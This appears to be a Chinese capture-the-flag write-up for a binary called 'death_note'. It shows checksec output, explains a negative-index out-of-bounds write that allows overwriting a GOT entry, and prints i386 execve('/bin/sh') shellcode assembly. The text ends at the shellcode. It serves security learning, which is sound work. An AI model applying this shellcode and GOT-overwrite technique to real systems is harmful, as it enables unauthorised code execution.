 ## 检查

```
$ file death_note 
death_note: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=547f3a1cf19ffe5798d45def2f4bc5c585af88f5, not stripped
$ checksec death_note 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

32位程序，没去符号表，只开了canary

## 分析

### add_note()

index不能大于10，会检查name是否为可打印字符，同时会malloc一块地址用于存储字符串内容，将地址保存在note[index]数组中，但是index可以为负数，会造成数组越界

### show_note()

读取地址指向的内容，同样存在数组越界的问题

### del_note()

会free掉那块内存并清零指针

## 漏洞点

read_int()函数中没有检查index是否为负数，使得数组越界造成任意地址写

## 利用

我们可以构造出全是可见字符的shellcode，然后将got表地址改为我们需要执行的指令入口即可

### shellcode

常见的shellcode思路是利用int 80h陷入软中断，

并使得eax内容为0x0b，ebx指向一个字符串”/bin/sh”，ecx、edx置0。如shellcraft.sh()

```asm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push '/bin///sh\x00' */
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp
/* push argument array ['sh\x00'] */
/* push 'sh\x00\x00' */
push 0x1010101
xor dword ptr [esp], 0x1016972
xor ecx, ecx
push ecx /* null terminate */
push 4
pop ecx
add ecx, esp
push ecx /* 'sh\x00' */
mov ecx, esp
xor edx, edx
```
